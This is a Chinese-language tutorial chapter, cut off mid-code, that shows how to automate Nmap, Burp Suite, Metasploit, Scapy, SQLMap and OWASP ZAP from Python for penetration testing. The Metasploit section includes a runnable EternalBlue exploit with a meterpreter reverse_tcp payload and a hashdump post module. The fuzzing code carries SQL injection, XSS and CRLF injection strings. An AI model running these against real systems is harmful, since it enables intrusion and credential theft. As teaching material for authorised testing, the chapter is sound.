

## 6. 与安全工具集成

在渗透测试和安全研究中，单独使用某个工具往往只能完成有限的任务。Python 作为"胶水语言"的核心价值，在于它能将 Nmap、Burp Suite、Metasploit、SQLMap 等专业工具串联成自动化流水线，实现从信息收集到漏洞利用的端到端编排。本章将系统讲解如何用 Python 调用主流安全工具、解析输出结果、构建自动化安全工作流。

### 6.1 集成模式总览

Python 与外部安全工具的集成主要有四种模式，每种模式适用于不同场景：

| 集成模式 | 原理 | 适用场景 | 代表工具 |
|---|---|---|---|
| **Python 库封装** | 通过 pip 安装的 Python 库直接调用工具功能 | 需要深度控制、结果结构化 | python-nmap、Scapy、Impacket |
| **REST API 调用** | 通过 HTTP 接口与工具的 API 交互 | 工具提供远程 API 时 | Burp Suite、OWASP ZAP、Nessus |
| **子进程调用** | 通过 subprocess 执行工具命令行 | 工具只有 CLI 没有库时 | SQLMap、Nikto、Gobuster、Hydra |
| **MSF RPC 接口** | 通过 Metasploit 的 RPC 服务交互 | 需要利用 Metasploit 框架能力 | Metasploit Framework |



选择集成模式的原则：**优先用 Python 库**（最灵活、最易调试），**次选 REST API**（解耦、可远程），**最后用子进程**（最通用但解析麻烦）。

### 6.2 Nmap 集成

Nmap 是网络扫描的事实标准，`python-nmap` 库提供了完整的 Python 封装，可以发起扫描并以结构化数据获取结果。

#### 6.2.1 安装与基础用法

```bash
pip install python-nmap
# 系统必须已安装 nmap
sudo apt install nmap -y
```

```python
import nmap

nm = nmap.PortScanner()
# 基础扫描：SYN 扫描 + 版本检测
nm.scan('192.168.1.0/24', '22,80,443,8080', arguments='-sS -sV -T4')

for host in nm.all_hosts():
    print(f"\n[*] 主机: {host} - 状态: {nm[host].state()}")
    for proto in nm[host].all_protocols():
        ports = sorted(nm[host][proto].keys())
        for port in ports:
            info = nm[host][proto][port]
            print(f"  端口 {port}/{proto}: {info['state']} "
                  f"-> {info['name']} {info.get('version', '')}")
```

#### 6.2.2 完整的 Nmap 封装类

在实际渗透测试中，需要封装更完整的 Nmap 操作，包括异步扫描、结果持久化、漏洞脚本调用等：

```python
import nmap
import json
import xml.etree.ElementTree as ET
from pathlib import Path
from datetime import datetime


class NmapScanner:
    """Nmap 扫描封装，支持多种扫描类型和结果导出"""

    # 常用扫描配置模板
    SCAN_PROFILES = {
        'quick': '-sS -T4 --top-ports 100',
        'standard': '-sS -sV -T4 -O',
        'aggressive': '-sS -sV -O -A -T4 --script=vuln',
        'stealth': '-sS -T2 --scan-delay 1s -f',
        'udp': '-sU -T4 --top-ports 50',
        'full': '-sS -sU -sV -O -A -T4 -p-',
        'vuln': '-sV --script=vuln --script-args=unsafe=1',
    }

    def __init__(self):
        self.scanner = nmap.PortScanner()
        self.results = []

    def scan(self, targets, ports=None, profile='standard', extra_args='',
             callback=None):
        """执行扫描

        Args:
            targets: 目标 IP/CIDR，多个用逗号分隔
            ports: 端口范围，默认使用 profile 的默认值
            profile: 扫描配置模板名
            extra_args: 额外的 nmap 参数
            callback: 扫描进度回调 callback(host, percent)
        """
        base_args = self.SCAN_PROFILES.get(profile, profile)
        if extra_args:
            base_args += f' {extra_args}'

        timestamp = datetime.now().isoformat()
        print(f"[{timestamp}] 开始扫描: {targets}")
        print(f"  参数: {base_args}")

        def _progress(host, percent):
            if callback:
                callback(host, percent)
            # 同时输出到 stdout
            if percent % 10 == 0:
                print(f"  进度: {host} - {percent}%")

        try:
            self.scanner.scan(
                hosts=targets,
                ports=ports or '',
                arguments=base_args,
                callback=_progress
            )
        except nmap.PortScannerError as e:
            print(f"[!] Nmap 执行失败: {e}")
            print("[!] 请确认 nmap 已安装且具有 root 权限（SYN 扫描需要）")
            return []

        results = self._parse_results()
        self.results.extend(results)
        return results

    def _parse_results(self):
        """解析扫描结果为结构化数据"""
        parsed = []
        for host in self.scanner.all_hosts():
            host_info = {
                'host': host,
                'hostname': self.scanner[host].hostname(),
                'state': self.scanner[host].state(),
                'protocols': {},
                'os_matches': [],
                'scripts': {},
            }

            # 解析端口和服务
            for proto in self.scanner[host].all_protocols():
                ports = []
                for port in sorted(self.scanner[host][proto].keys()):
                    info = self.scanner[host][proto][port]
                    port_data = {
                        'port': port,
                        'state': info['state'],
                        'service': info['name'],
                        'version': info.get('version', ''),
                        'product': info.get('product', ''),
                        'extrainfo': info.get('extrainfo', ''),
                        'cpe': info.get('cpe', ''),
                    }
                    # 解析端口级 NSE 脚本输出
                    if 'script' in info:
                        port_data['scripts'] = dict(info['script'])
                    ports.append(port_data)
                host_info['protocols'][proto] = ports

            # 解析操作系统检测结果
            if 'osmatch' in self.scanner[host]:
                for os_match in self.scanner[host]['osmatch']:
                    host_info['os_matches'].append({
                        'name': os_match['name'],
                        'accuracy': os_match['accuracy'],
                    })

            # 解析主机级 NSE 脚本输出
            if 'hostscript' in self.scanner[host]:
                for script in self.scanner[host]['hostscript']:
                    host_info['scripts'][script['id']] = script['output']

            parsed.append(host_info)
        return parsed

    def export_json(self, path='nmap_results.json'):
        """导出结果为 JSON"""
        with open(path, 'w', encoding='utf-8') as f:
            json.dump(self.results, f, indent=2, ensure_ascii=False)
        print(f"[+] 结果已保存: {path}")

    def export_xml(self, path='nmap_results.xml'):
        """导出原始 XML（Nmap 原生格式）"""
        # python-nmap 不直接支持 XML 导出，通过调用 nmap 命令行实现
        import subprocess
        targets = ','.join(r['host'] for r in self.results)
        if targets:
            subprocess.run(['nmap', '-oX', path, targets], check=True)
            print(f"[+] XML 结果已保存: {path}")

    def get_open_ports(self, host=None):
        """获取所有开放端口"""
        open_ports = []
        for result in self.results:
            if host and result['host'] != host:
                continue
            for proto, ports in result['protocols'].items():
                for port_info in ports:
                    if port_info['state'] == 'open':
                        open_ports.append({
                            'host': result['host'],
                            'protocol': proto,
                            **port_info
                        })
        return open_ports

    def find_service(self, service_name):
        """按服务名搜索"""
        matches = []
        for result in self.results:
            for proto, ports in result['protocols'].items():
                for port_info in ports:
                    if service_name.lower() in port_info['service'].lower():
                        matches.append({
                            'host': result['host'],
                            'protocol': proto,
                            **port_info
                        })
        return matches


# 使用示例
scanner = NmapScanner()

# 快速扫描常用端口
results = scanner.scan('192.168.1.0/24', profile='quick')

# 查找所有 HTTP 服务
http_servers = scanner.find_service('http')
for server in http_servers:
    print(f"  {server['host']}:{server['port']} -> {server['product']} {server['version']}")

# 漏洞扫描特定主机
vuln_results = scanner.scan('192.168.1.100', profile='vuln')

# 导出结果
scanner.export_json('/tmp/pentest_nmap.json')
```

#### 6.2.3 NSE 脚本高级调用

Nmap 的 Nmap Scripting Engine（NSE）脚本是漏洞检测的利器，通过 Python 可以精准调用特定脚本：

```python
# 调用特定 NSE 脚本
def run_nse_scripts(target, script_category=None, specific_scripts=None):
    """运行 NSE 脚本

    Args:
        target: 扫描目标
        script_category: 脚本类别: safe, vuln, exploit, auth, brute, discovery
        specific_scripts: 具体脚本名列表，如 ['http-title', 'ssl-cert']
    """
    nm = nmap.PortScanner()

    if specific_scripts:
        script_arg = '--script=' + ','.join(specific_scripts)
    elif script_category:
        script_arg = f'--script={script_category}'
    else:
        raise ValueError("必须指定 script_category 或 specific_scripts")

    nm.scan(target, arguments=f'-sV {script_arg} --script-args=unsafe=1')

    script_results = []
    for host in nm.all_hosts():
        for proto in nm[host].all_protocols():
            for port in nm[host][proto].keys():
                port_info = nm[host][proto][port]
                if 'script' in port_info:
                    for script_name, output in port_info['script'].items():
                        script_results.append({
                            'host': host,
                            'port': port,
                            'script': script_name,
                            'output': output
                        })
    return script_results


# 检测常见 Web 漏洞
web_vulns = run_nse_scripts(
    '192.168.1.100',
    specific_scripts=[
        'http-sql-injection',
        'http-xssed',
        'http-csrf',
        'http-stored-xss',
        'http-enum',
        'http-headers',
        'ssl-heartbleed',
        'ssl-poodle',
    ]
)

for vuln in web_vulns:
    print(f"[!] {vuln['host']}:{vuln['port']} - {vuln['script']}")
    print(f"    {vuln['output'][:200]}")
```

### 6.3 Burp Suite 集成

Burp Suite 是 Web 渗透测试的核心工具。从 Burp Suite Professional 2022.9 起，官方提供了 REST API，使得 Python 自动化成为可能。

#### 6.3.1 Burp Suite REST API 客户端

```python
import requests
import time
import json
from urllib.parse import urljoin


class BurpSuiteAPI:
    """Burp Suite Professional REST API 客户端

    使用前需在 Burp 中启用 REST API：
    Project Options > Misc > REST API > Enable
    默认监听 http://127.0.0.1:1337
    """

    def __init__(self, base_url='http://127.0.0.1:1337', api_key=None):
        self.base_url = base_url.rstrip('/')
        self.session = requests.Session()
        if api_key:
            self.session.headers['Authorization'] = f'Bearer {api_key}'
        self.session.headers['Content-Type'] = 'application/json'

    def _request(self, method, path, **kwargs):
        """统一请求封装，带重试和错误处理"""
        url = f'{self.base_url}{path}'
        for attempt in range(3):
            try:
                resp = self.session.request(method, url, timeout=30, **kwargs)
                resp.raise_for_status()
                return resp.json() if resp.content else {}
            except requests.exceptions.ConnectionError:
                if attempt < 2:
                    time.sleep(2)
                    continue
                raise RuntimeError(
                    f"无法连接 Burp REST API ({url})。"
                    f"请确认 Burp 已启动且 REST API 已启用。"
                )
            except requests.exceptions.HTTPError as e:
                if resp.status_code == 401:
                    raise RuntimeError("认证失败，请检查 API Key")
                raise

    # ---- 扫描管理 ----

    def start_scan(self, urls, scan_config='Custom'):
        """启动主动扫描

        Args:
            urls: 要扫描的 URL 列表
            scan_config: 扫描配置 ('Custom', 'Crawl and Audit - Fast',
                         'Crawl and Audit - Thorough')
        Returns:
            scan_id: 扫描任务 ID
        """
        payload = {
            'urls': urls if isinstance(urls, list) else [urls],
        }
        resp = self._request('POST', '/v0.1/scan', json=payload)
        # 返回的 Location header 中包含 scan_id
        return resp

    def get_scan_status(self, scan_id):
        """获取扫描状态"""
        return self._request('GET', f'/v0.1/scan/{scan_id}')

    def get_scan_issues(self, scan_id):
        """获取扫描发现的漏洞/问题"""
        return self._request('GET', f'/v0.1/scan/{scan_id}/issues')

    def wait_for_scan(self, scan_id, poll_interval=30):
        """等待扫描完成"""
        print(f"[*] 等待扫描 {scan_id} 完成...")
        while True:
            status = self.get_scan_status(scan_id)
            scan_status = status.get('scan_status', 'unknown')
            print(f"  状态: {scan_status}")
            if scan_status in ('succeeded', 'failed', 'canceled'):
                return status
            time.sleep(poll_interval)

    # ---- Repeater ----

    def send_to_repeater(self, request_raw, target_host, target_port=443,
                         use_https=True):
        """将原始请求发送到 Repeater 标签页

        Args:
            request_raw: 原始 HTTP 请求（字节或字符串）
            target_host: 目标主机
            target_port: 目标端口
            use_https: 是否使用 HTTPS
        """
        if isinstance(request_raw, str):
            request_raw = request_raw.encode()

        import base64
        payload = {
            'request': {
                'url': f"{'https' if use_https else 'http'}://{target_host}:{target_port}",
                'http_version': 'HTTP/1.1',
            },
            'base64_request': base64.b64encode(request_raw).decode(),
        }
        return self._request('POST', '/v0.1/repeater', json=payload)

    # ---- Intruder ----

    def send_to_intruder(self, request_raw, target_host, positions=None):
        """将请求发送到 Intruder 并设置注入点

        Args:
            request_raw: 原始 HTTP 请求
            target_host: 目标主机
            positions: 注入点位置列表（§ 标记的位置）
        """
        import base64
        payload = {
            'base64_request': base64.b64encode(request_raw).decode(),
        }
        return self._request('POST', '/v0.1/intruder', json=payload)

    # ---- 代理历史 ----

    def get_proxy_history(self, offset=0, limit=50):
        """获取代理历史记录"""
        return self._request(
            'GET',
            f'/v0.1/http-request-response?url-offset={offset}&url-limit={limit}'
        )

    def search_proxy_history(self, search_term):
        """搜索代理历史"""
        return self._request(
            'GET',
            f'/v0.1/http-request-response?url-search={search_term}'
        )


# 使用示例
burp = BurpSuiteAPI(api_key='your-api-key-here')

# 启动扫描并等待结果
scan_id = burp.start_scan(['https://target.example.com'])
status = burp.wait_for_scan(scan_id)
issues = burp.get_scan_issues(scan_id)

# 输出发现的漏洞
for issue in issues.get('issues', []):
    severity = issue.get('severity', 'unknown')
    name = issue.get('name', 'unknown')
    url = issue.get('url', '')
    print(f"[{severity.upper()}] {name} @ {url}")
```

#### 6.32 Burp 扩展开发（Java/Python 混合）

Burp Suite 支持通过 Montoya API 开发扩展。虽然扩展本身通常用 Java 编写，但可以嵌入 Jython 来使用 Python 逻辑：

```python
# Burp Suite 扩展中嵌入 Python（通过 Jython）
# 此代码在 Burp 的 Jython 环境中运行，不是普通 Python

from burp import IBurpExtender, IHttpListener, IScanIssue

class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("Python Auto-Analyzer")
        callbacks.registerHttpListener(self)
        return

    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        if not messageIsRequest:
            # 分析响应
            response = messageInfo.getResponse()
            analyzed = self._helpers.analyzeResponse(response)
            headers = analyzed.getHeaders()
            body = response[analyzed.getBodyOffset():].tostring()

            # 检测敏感信息泄露
            patterns = [
                r'(?i)password\s*[:=]\s*["\']?(\w+)',
                r'(?i)api[_-]?key\s*[:=]\s*["\']?([\w-]+)',
                r'(?i)secret\s*[:=]\s*["\']?(\w+)',
                r'\b(?:\d{1,3}\.){3}\d{1,3}\b',  # 内网 IP
            ]
            import re
            for pattern in patterns:
                matches = re.findall(pattern, body)
                if matches:
                    print(f"[!] 发现敏感信息: {pattern} -> {matches[:3]}")
```

### 6.4 Metasploit RPC 集成

Metasploit 提供了 msgpack RPC 接口（MSFRPC），Python 可以通过 `pymetasploit3` 库实现完整的远程控制。

#### 6.4.1 安装与连接

```bash
pip install pymetasploit3
# 启动 msgrpc 服务
msfconsole -q -x "load msgrpc Pass=yourpassword; exit"
```

```python
from pymetasploit3.msfrpc import MsfRpcClient

# 连接到 Metasploit RPC
client = MsfRpcClient('yourpassword', server='127.0.0.1', port=55553, ssl=True)

print(f"[*] 已连接: {client.core.version}")
print(f"[*] 可用模块数: {len(client.modules.exploits)}")
```

#### 6.4.2 漏洞利用自动化

```python
from pymetasploit3.msfrpc import MsfRpcClient
import time


class MetasploitAutomation:
    """Metasploit 自动化封装"""

    def __init__(self, password, host='127.0.0.1', port=55553):
        self.client = MsfRpcClient(password, server=host, port=port, ssl=True)

    def search_exploits(self, keyword):
        """搜索可用漏洞利用模块"""
        exploits = self.client.modules.exploits
        return [e for e in exploits if keyword.lower() in e.lower()]

    def run_exploit(self, module_path, options, payload=None):
        """执行漏洞利用

        Args:
            module_path: 模块路径，如 'exploit/windows/smb/ms17_010_eternalblue'
            options: 模块参数字典
            payload: payload 模块路径
        Returns:
            session_id: 成功时返回会话 ID
        """
        exploit = self.client.modules.use('exploit', module_path)

        # 设置参数
        for key, value in options.items():
            exploit[key] = value

        # 执行
        if payload:
            result = exploit.execute(payload=payload)
        else:
            result = exploit.execute()

        print(f"[*] 漏洞利用已执行: {module_path}")
        print(f"    Job ID: {result.get('job_id')}")

        # 等待会话建立
        time.sleep(5)
        sessions = self.client.sessions.list
        if sessions:
            newest = max(sessions.keys(), key=int)
            print(f"[+] 新会话建立: ID {newest}")
            return newest

        return None

    def interact_session(self, session_id, command, timeout=10):
        """与会话交互（Meterpreter 或 Shell）"""
        session = self.client.sessions.session(str(session_id))
        session.write(command)
        time.sleep(timeout)
        return session.read()

    def run_post_module(self, session_id, module_path, options=None):
        """在已有会话上运行 post 模块"""
        post = self.client.modules.use('post', module_path)
        if options:
            for key, value in options.items():
                post[key] = value
        post['SESSION'] = int(session_id)
        return post.execute()

    def get_credentials(self):
        """获取所有已收集的凭证"""
        return self.client.db.creds

    def get_hosts(self):
        """获取数据库中的主机"""
        return self.client.db.hosts

    def list_sessions(self):
        """列出所有活跃会话"""
        sessions = []
        for sid, info in self.client.sessions.list.items():
            sessions.append({
                'id': sid,
                'type': info.get('type'),
                'info': info.get('info'),
                'target_host': info.get('target_host'),
                'via_exploit': info.get('via_exploit'),
            })
        return sessions


# 使用示例
msf = MetasploitAutomation('yourpassword')

# 搜索 EternalBlue 漏洞利用
exploits = msf.search_exploits('eternalblue')
print(f"找到模块: {exploits}")

# 执行漏洞利用
session_id = msf.run_exploit(
    'exploit/windows/smb/ms17_010_eternalblue',
    options={
        'RHOSTS': '192.168.1.100',
        'RPORT': 445,
    },
    payload='windows/x64/meterpreter/reverse_tcp'
)

# 与 Meterpreter 会话交互
if session_id:
    output = msf.interact_session(session_id, 'sysinfo')
    print(f"系统信息: {output}")

    # 获取密码哈希
    msf.run_post_module(session_id, 'windows/gather/hashdump')
```

### 6.5 Scapy 包构造与嗅探

Scapy 不仅仅是 Wireshark 的替代品——它是一个完整的网络包构造和交互框架，可以实现 Nmap 做不到的定制化扫描。

#### 6.5.1 基础包构造

```bash
pip install scapy
```

```python
from scapy.all import *
from scapy.layers.inet import IP, TCP, UDP, ICMP
from scapy.layers.l2 import Ether, ARP


# ---- 端口扫描 ----

def syn_scan(target, ports, timeout=2):
    """SYN 隐蔽扫描（不完成三次握手）"""
    results = []
    for port in ports:
        # 构造 SYN 包
        pkt = IP(dst=target) / TCP(dport=port, flags='S')
        resp = sr1(pkt, timeout=timeout, verbose=0)

        if resp is None:
            results.append({'port': port, 'state': 'filtered'})
        elif resp.haslayer(TCP):
            flags = resp[TCP].flags
            if flags == 0x12:  # SYN-ACK = 端口开放
                # 发送 RST 关闭连接（不发送就完成握手）
                send(IP(dst=target) / TCP(dport=port, flags='R'), verbose=0)
                results.append({'port': port, 'state': 'open'})
            elif flags == 0x14:  # RST-ACK = 端口关闭
                results.append({'port': port, 'state': 'closed'})
        elif resp.haslayer(ICMP):
            results.append({'port': port, 'state': 'filtered'})

    return results


# ---- ARP 主机发现 ----

def arp_discovery(network):
    """ARP 扫描发现内网存活主机"""
    ans, unans = srp(
        Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=network),
        timeout=3,
        verbose=0
    )
    hosts = []
    for sent, received in ans:
        hosts.append({
            'ip': received.psrc,
            'mac': received.hwsrc,
        })
        print(f"  [+] {received.psrc} - {received.hwsrc}")
    return hosts


# ---- OS 指纹识别 ----

def os_fingerprint(target):
    """通过 TCP 窗口大小和 TTL 推断操作系统"""
    pkt = IP(dst=target) / TCP(dport=80, flags='S')
    resp = sr1(pkt, timeout=3, verbose=0)

    if resp:
        ttl = resp[IP].ttl
        window = resp[TCP].window

        # 简单的指纹匹配
        if ttl <= 64:
            os_guess = 'Linux/Unix'
        elif ttl <= 128:
            os_guess = 'Windows'
        else:
            os_guess = 'Solaris/AIX'

        return {
            'ttl': ttl,
            'window': window,
            'os_guess': os_guess,
            'details': f'TTL={ttl}, Window={window}'
        }
    return None


# ---- 流量嗅探与分析 ----

def sniff_and_analyze(filter_expr, count=100, iface=None):
    """抓包并分析协议分布"""
    packets = sniff(filter=filter_expr, count=count, iface=iface)

    stats = {}
    for pkt in packets:
        proto = pkt.lastlayer().name
        stats[proto] = stats.get(proto, 0) + 1

    print(f"\n抓取 {len(packets)} 个包，协议分布:")
    for proto, count in sorted(stats.items(), key=lambda x: -x[1]):
        print(f"  {proto}: {count}")

    return packets


# ---- DNS 枚举 ----

def dns_enum(domain, wordlist=None):
    """DNS 子域名枚举"""
    if wordlist is None:
        wordlist = ['www', 'mail', 'ftp', 'admin', 'dev', 'test',
                    'staging', 'api', 'blog', 'cdn', 'vpn', 'proxy']

    found = []
    for subdomain in wordlist:
        target = f"{subdomain}.{domain}"
        try:
            pkt = IP(dst='8.8.8.8') / UDP(dport=53) / \
                  DNS(rd=1, qd=DNSQR(qname=target))
            resp = sr1(pkt, timeout=2, verbose=0)
            if resp and resp.haslayer(DNS):
                for i in range(resp[DNS].ancount):
                    rdata = resp[DNS].an[i].rdata
                    if isinstance(rdata, str) and '.' in rdata:
                        found.append({'subdomain': target, 'ip': rdata})
                        print(f"  [+] {target} -> {rdata}")
        except Exception:
            pass

    return found
```

#### 6.5.2 自定义协议模糊测试

Scapy 最强大的能力之一是构造畸形包进行协议模糊测试：

```python
from scapy.all import *
from scapy.layers.http import HTTP, HTTPRequest
import random


def http_fuzz(target, port=80, iterations=100):
    """HTTP 请求模糊测试"""
    fuzz_cases = [
        # 超长 Header
        {'User-Agent': 'A' * 8192},
        # 特殊字符
        {'Cookie': "' OR 1=1 --"},
        {'X-Forwarded-For': '<script>alert(1)</script>'},
        # 畸形 Content-Type
        {'Content-Type': 'application/' + 'x' * 1000},
        # CRLF 注入
        {'Host': f'{target}\r\nX-Injected: true'},
    ]

    results = []
    for i in range(iterations):
        headers = random.choice(fuzz_cases)
        header_str = '\r\n'.join(f'{k}: {v}' for k, v in headers.items())

        raw_request = (
            f'GET /fuzz_{i} HTTP/1.1\r\n'
            f'Host: {target}\r\n'
            f'{header_str}\r\n'
            f'\r\n'
        )

        pkt = IP(dst=target) / TCP(dport=port) / Raw(load=raw_request)
        resp = sr1(pkt, timeout=3, verbose=0)

        if resp:
            raw_resp = bytes(resp[Raw].load) if resp.haslayer(Raw) else b''
            status_line = raw_resp.split(b'\r\n')[0].decode(errors='ignore')

            # 检测异常响应
            if any(code in status_line for code in ['500', '502', '503']):
                results.append({
                    'iteration': i,
                    'headers': headers,
                    'status': status_line,
                    'potential_crash': True
                })
                print(f"  [!] 异常响应: {status_line} - 输入: {headers}")

    return results
```

### 6.6 SQLMap API 集成

SQLMap 是 SQL 注入检测和利用的终极工具。它提供了一个 REST API 服务（sqlmapapi），可以通过 Python 进行远程控制。

#### 6.6.1 启动 SQLMap API 服务

```bash
# 启动 API 服务（服务端模式）
python sqlmapapi.py -s -H 0.0.0.0 -p 8775

# 或启动客户端模式连接远程服务
python sqlmapapi.py -c -H http://127.0.0.1:8775
```

#### 6.6.2 Python 客户端封装

```python
import requests
import time
import json


class SQLMapAPI:
    """SQLMap REST API 客户端"""

    def __init__(self, base_url='http://127.0.0.1:8775'):
        self.base_url = base_url.rstrip('/')
        self.session = requests.Session()

    def new_task(self):
        """创建新任务"""
        resp = self.session.get(f'{self.base_url}/task/new')
        data = resp.json()
        return data['taskid']

    def set_options(self, task_id, options):
        """设置扫描选项"""
        resp = self.session.post(
            f'{self.base_url}/option/{task_id}/set',
            json=options
        )
        return resp.json()

    def start_scan(self, task_id, options=None):
        """启动扫描"""
        if options:
            self.set_options(task_id, options)
        resp = self.session.post(
            f'{self.base_url}/scan/{task_id}/start',
            json=options or {}
        )
        return resp.json()

    def get_status(self, task_id):
        """获取扫描状态"""
        resp = self.session.get(f'{self.base_url}/scan/{task_id}/status')
        return resp.json()

    def get_results(self, task_id):
        """获取扫描结果"""
        resp = self.session.get(f'{self.base_url}/scan/{task_id}/data')
        return resp.json()

    def wait_for_completion(self, task_id, poll_interval=5):
        """等待扫描完成"""
        while True:
            status = self.get_status(task_id)
            state = status.get('status', '')
            print(f"  状态: {state} - 进度: {status.get('returncode', 'N/A')}")

            if state == 'terminated':
                return self.get_results(task_id)
            time.sleep(poll_interval)

    def stop_scan(self, task_id):
        """停止扫描"""
        resp = self.session.get(f'{self.base_url}/scan/{task_id}/stop')
        return resp.json()

    def delete_task(self, task_id):
        """删除任务"""
        resp = self.session.get(f'{self.base_url}/task/{task_id}/delete')
        return resp.json()


def scan_for_sqli(target_url, method='GET', data=None, cookie=None,
                  level=3, risk=2):
    """完整的 SQL 注入扫描流程

    Args:
        target_url: 目标 URL
        method: HTTP 方法
        data: POST 数据
        cookie: Cookie 字符串
        level: 检测级别 (1-5)，越高越全面
        risk: 风险等级 (1-3)，越高测试越激进
    """
    api = SQLMapAPI()
    task_id = api.new_task()
    print(f"[*] 新建任务: {task_id}")

    options = {
        'url': target_url,
        'level': level,
        'risk': risk,
        'threads': 4,
        'batch': True,       # 非交互模式
        'forms': True,        # 自动测试表单
        'crawl': 2,           # 爬取深度
        'smart': True,        # 启发式检测
        'timeout': 30,
        'retries': 3,
    }

    if method == 'POST' and data:
        options['data'] = data
    if cookie:
        options['cookie'] = cookie

    print(f"[*] 开始扫描: {target_url}")
    api.start_scan(task_id, options)

    results = api.wait_for_completion(task_id)

    # 解析结果
    if results and results.get('data'):
        for item_type, items in results['data'].items():
            for item in items:
                injectable = item.get('data', {})
                for param, details in injectable.items():
                    print(f"[+] 发现注入点:")
                    print(f"    参数: {param}")
                    print(f"    类型: {details.get('title', 'unknown')}")
                    print(f"    Payload: {details.get('payload', 'N/A')[:100]}")

    api.delete_task(task_id)
    return results
```

### 6.7 OWASP ZAP 集成

OWASP ZAP（Zed Attack Proxy）是开源的 Web 应用安全扫描器，提供完善的 Python API 支持。

```bash
pip install zapv2
```

```python
from zapv2 import ZAPv2
import time


class ZAPScanner:
    """OWASP ZAP 自动化扫描"""

    def __init__(self, api_key, proxy='http://127.0.0.1:8080'):
        self.zap = ZAPv2(apikey=api_key, proxies={'http': proxy})

    def spider_target(self, target, max_children=50):
        """爬取目标网站"""
        print(f"[*] 开始爬取: {target}")
        spider_id = self.zap.spider.scan(target, maxchildren=max_children)

        while int(self.zap.spider.status(spider_id)) < 100:
            progress = self.zap.spider.status(spider_id)
            print(f"  爬取进度: {progress}%")
            time.sleep(5)

        urls = self.zap.spider.results(spider_id)
        print(f"[+] 爬取完成，发现 {len(urls)} 个 URL")
        return urls

    def active_scan(self, target, recurse=True):
        """主动扫描（发送攻击 Payload）"""
        print(f"[*] 开始主动扫描: {target}")
        scan_id = self.zap.ascan.scan(target, recurse=recurse)

        while int(self.zap.ascan.status(scan_id)) < 100:
            progress = self.zap.ascan.status(scan_id)
            print(f"  扫描进度: {progress}%")
            time.sleep(10)

        print(f"[+] 主动扫描完成")
        return self.get_alerts(target)

    def passive_scan(self, target):
        """被动分析（分析已有的请求/响应）"""
        # 被动扫描自动运行，等待分析完成
        while int(self.zap.pscan.records_to_scan) > 0:
            remaining = self.zap.pscan.records_to_scan
            print(f"  被动扫描待处理: {remaining}")
            time.sleep(2)

    def get_alerts(self, target=None, risk_level=None):
        """获取安全告警

        Args:
            target: 过滤目标 URL
            risk_level: 风险等级过滤 ('High', 'Medium', 'Low', 'Informational')
        """
        alerts = self.zap.core.alerts(baseurl=target)

        if risk_level:
            alerts = [a for a in alerts if a.get('risk') == risk_level]

        for alert in alerts:
            risk = alert.get('risk', 'Unknown')
            name = alert.get('name', 'Unknown')
            url = alert.get('url', '')
            print(f"  [{risk.upper()}] {name}")
            print(f"    URL: {url}")

        return alerts

    def export_report(self, path='zap_report.html', fmt='html'):
        """导出扫描报告"""
        if fmt == 'html':
            report = self.zap.core.htmlreport()
        elif fmt == 'xml':
            report = self.zap.core.xmlreport()
        elif fmt == 'json':
            report = self.zap.core.jsonreport()
        else:
            raise ValueError(f"不支持的格式: {fmt}")

        with open(path, 'w', encoding='utf-8') as f:
            f.write(report)
        print(f"[+] 报告已导出: {path}")


# 使用示例
zap = ZAPScanner(api_key='your-zap-api-key')

# 完整的扫描流程
urls = zap.spider_target('https://target.example.com')
zap.passive_scan('https://target.example.com')
alerts = zap.active_scan('https://target.example.com')

# 按风险等级查看结果
high_risks = zap.get_alerts(risk_level='High')
print(f"\n发现 {len(high_risks)} 个高风险漏洞")

# 导出报告
zap.export_report('/tmp/zap_report.html')
zap.export_report('/tmp/zap_report.json', fmt='json')
```

### 6.8 子进程调用模式

很多安全工具没有 Python 库或 API，只能通过命令行调用。用 `subprocess` 封装是通用方案，关键在于正确处理输出解析和错误状态。

#### 6.8.1 通用工具封装基类

```python
import subprocess
import shlex
import re
import json
from pathlib import Path
from abc import ABC, abstractmethod


class SecurityToolBase(ABC):
    """安全工具封装基类"""

    def __init__(self, tool_path=None):
        self.tool_path = tool_path or self.default_tool_path
        self._verify_installation()

    @property
    @abstractmethod
    def default_tool_path(self):
        """工具的默认路径"""
        pass

    @abstractmethod
    def parse_output(self, stdout, stderr, returncode):
        """解析工具输出，返回结构化结果"""
        pass

    def _verify_installation(self):
        """检查工具是否已安装"""
        try:
            result = subprocess.run(
                [self.tool_path, '--version'],
                capture_output=True, text=True, timeout=10
            )
            self.version = result.stdout.strip()
            print(f"[*] {self.tool_path} 已就绪: {self.version[:80]}")
        except FileNotFoundError:
            raise RuntimeError(
                f"{self.tool_path} 未找到，请先安装。"
                f"例如: sudo apt install {self.tool_path} 或 pip install {self.tool_path}"
            )
        except subprocess.TimeoutExpired:
            print(f"[!] {self.tool_path} 版本检测超时，可能已安装")

    def run(self, args, timeout=300, cwd=None):
        """执行工具命令

        Args:
            args: 参数列表或字符串
            timeout: 超时秒数
            cwd: 工作目录
        Returns:
            dict: 包含 stdout, stderr, returncode, parsed 结果
        """
        if isinstance(args, str):
            args = shlex.split(args)

